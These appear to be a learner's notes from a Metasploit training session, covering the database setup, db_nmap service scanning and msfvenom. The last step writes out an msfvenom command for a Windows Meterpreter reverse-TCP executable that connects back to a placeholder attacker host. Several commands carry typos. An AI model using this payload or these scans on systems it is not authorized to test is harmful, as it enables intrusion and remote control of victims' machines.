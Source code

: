 In this session, ...
- How to scan target systems using Metasploit.
- How to use the Metasploit database feature.
- How to use Metasploit to conduct a vulnerability scan.
- How to use Metasploit to exploit vulnerable services on target systems.
- How `msfvenom` can be used to create payloads and obtain a Meterpreter session on the target system.

### The `Metasploit` Database

- start `postgreSQL` database, 
  ```zsh
  systemctl start pastgresql
```
- initializing metasploit database, 
  ```zsh
  msfdb init
```
- launch `msfconsole`
- check database status using `db_satus` 
- list available workspaces using `workspace`
- add or delete workspace using `-a`, `-d` options 
- running `nmap` using `db` saves all the results to the database
  ```zsh
  db_nmap -sV -p- Machine_ip
```
then see the result you can run `hosts` and `service` commands 
### `msfvenom`
- is a standalone payload generator, a combination of `msfpayload` and `msfencode`
- handlers are components to receive/accept the incoming connection generated by msfvenom payload.
- msfvenom can be used to create a payloads in different formats, based on machine's operation system, installed interpreter, installed webserver and etc.
- for instance, to generate payload for windows machine one can do this
  ```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```
